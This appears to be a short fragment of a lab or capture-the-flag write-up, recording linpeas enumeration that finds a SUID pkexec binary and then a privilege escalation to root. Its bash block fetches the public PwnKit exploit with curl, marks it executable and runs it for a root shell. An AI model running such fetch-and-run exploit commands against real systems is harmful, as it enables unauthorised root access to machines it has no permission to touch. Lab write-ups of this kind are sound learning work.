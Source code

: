 

linpeas enum.

pkexec with suid, and kernel 4.4.

![image-20221006111810718](./images/image-20221006111810718.png)



## System

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
```

got root.

![image-20221006111742224](./images/image-20221006111742224.png)
